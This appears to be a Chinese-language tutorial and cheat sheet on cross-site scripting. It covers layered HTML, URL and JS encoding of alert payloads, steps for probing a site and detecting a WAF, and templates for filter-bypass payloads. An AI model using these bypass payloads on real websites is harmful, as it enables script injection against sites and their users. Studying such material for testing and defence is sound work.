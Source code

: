 # xss 攻击和绕过思路

## 什么样的api可能存在xss 漏洞
输入参数如果能回显则可能存在xss 漏洞

存在xss 的位置可能是
* html 内容
* html 属性
* css 内联样式
* 内联js或者json
* href 等

常见的是html 内容和属性
```
<input> html 内容 </input>

<input> html 内容 </input value=""// html 属性>

```

## html编码，url 编码 和js 编码

html 的解析顺序为3个环节：HTML解码 -->URL解码 -->JS解码

举例1：
```
1. 对javascript:alert(1)进行HTML编码
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;">
2. 对alert进行JS编码
<img src=xxx onerror="javascript:\u0061\u006c\u0065\u0072\u0074(1)">
3. 以上两种方法混用
<img src=xxx onerror="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x31;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x63;&#x5c;&#x75;&#x30;&#x30;&#x36;&#x35;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x32;&#x5c;&#x75;&#x30;&#x30;&#x37;&#x34;&#x28;&#x31;&#x29;">

```
举例2：
```
1. 原代码
<a href="javascript:alert('xss')">test</a>
2. 对alert进行JS编码（unicode编码）
<a href="javascript:\u0061\u006c\u0065\u0072\u0074('xss')">test</a>
3. 对href标签中的\u0061\u006c\u0065\u0072\u0074进行URL编码
<a href="javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')">test</a>
4. 对href标签中的javascript:%5c%75%30%30%36%31%5c%75%30%30%36%63%5c%75%30%30%36%35%5c%75%30%30%37%32%5c%75%30%30%37%34('xss')进行HTML编码：
<a href="&#x6a;&#x61;&#x76;&#x61;&#x73;&#x63;&#x72;&#x69;&#x70;&#x74;&#x3a;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x31;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x36;&#x33;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x36;&#x25;&#x33;&#x35;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x32;&#x25;&#x35;&#x63;&#x25;&#x37;&#x35;&#x25;&#x33;&#x30;&#x25;&#x33;&#x30;&#x25;&#x33;&#x37;&#x25;&#x33;&#x34;&#x28;&#x27;&#x78;&#x73;&#x73;&#x27;&#x29;">test</a>

```

## 攻击顺序
1. 判断是否存在字符串编码
输入<script>alert("1")</script>, 看是否转成html 实体，可以判断是否使用html实体转换。
  
2. 是否存在waf
一般waf 返回403，如果发现403，则存在waf拦截。

## waf 绕过
### 1. xss输出在html内容

一般payload 格式有下面几种
```
<{tag}{filler}{event_handler}{?filler}={?filler}{javascript}{?filler}{>,//,Space,Tab,LF}
```

```
<sCriPt{filler}sRc{?filler}={?filler}{url}{?filler}{>,//,Space,Tab,LF}
```

```
<A{filler}hReF{?filler}={?filler}{quote}{special}:{javascript}{quote}{?filler}{>,//,Space,Tab,LF}
```

**{tag}**：html 标签名： a img script 等等

**{filter}**：空格，/ 等，可以是url 编码的字符
```
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s] tab
<tag%09%09xxx -如果失败， s+ tabtab
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+
```
**event_handler** 可能是多个even 函数:
```
onclick
onauxclick
ondblclick
ondrag
ondragend
ondragenter
ondragexit
ondragleave
ondragover
ondragstart
onmousedown
onmouseenter
onmouseleave
onmousemove
onmouseout
onmouseover
onmouseup
```
**{javascript}**: js代码
js 代码可以混淆，可以js编码成unicode，可以使用html实体编码，几乎没法正则表达式绕过


### 2. xss输出在html 属性
常见的payload 格式：
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```

## html 编码绕过
html 一般会过滤掉< > " &, 所以输出在html 内容位置的xss 可以用10紧致html实体闭合，输出在html 属性的payload 通过换编码，混淆等有很多绕过方式。
一般payload 以下格式
```
{quote}{filler}{event_handler}{?filler}={?filler}{javascript}
```
举例：
```
" onclick="alert('xss')"
```
## payload 构造试探
```
// 判断是否存在htmlspecialchars
<script>alert("1")</script>

// 判断是否filter格式
<tag xxx – 如果失败，{space}
<tag%09xxx – 如果失败，[s]
<tag%09%09xxx -如果失败， s+
<tag/xxx – 如果失败，[s/]+
<tag%0axxx-如果失败， [sn]+
<tag%0dxxx>-如果失败， [snr+]+
<tag/~/xxx – 如果失败， .*+

//判断event_handler是否黑名单格式
<tag{filler}onxxx – 如果失败，onw+.
如果通过， on(load|click|error|show)
<tag{filler}onclick – 如果通过，则没有事件处理程序检查正则表达式。

//构造js payload
```
